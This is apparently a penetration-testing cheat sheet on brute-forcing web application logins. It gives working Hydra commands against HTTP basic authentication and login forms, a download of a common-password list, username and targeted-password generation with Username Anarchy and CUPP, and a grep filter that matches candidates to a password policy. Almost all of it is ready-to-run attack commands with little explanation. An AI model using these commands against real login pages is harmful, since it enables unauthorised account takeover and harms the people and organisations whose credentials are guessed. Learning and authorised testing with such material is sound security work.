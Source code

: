 # Login Brute Force

In this section, we will look at ways to perform brute force attacks on web application logins and how to generate wordlists for these attacks.

## Basic HTTP Authentication

**Hydra**
````
$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt <IP> http-get / -s 81
````

## Login Forms

````
$ hydra [options] target http-post-form "path:params:condition_string"
$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
````

## Custom Wordlist

**Username Anarchy**
````
$ ./username-anarchy Jane Smith > jane_smith_usernames.txt
````

**CUPP**
````
$ sudo apt install cupp -y
$ cupp -i
````

**Requirements**

Minimum Length: 6 characters

Must Include:
- At least one uppercase letter
- At least one lowercase letter
- At least one number
- At least two special characters (from the set !@#$%^&*)

````
$ grep -E '^.{6,}$' wordlist_pwd.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > wordlist_filtered.txt
````
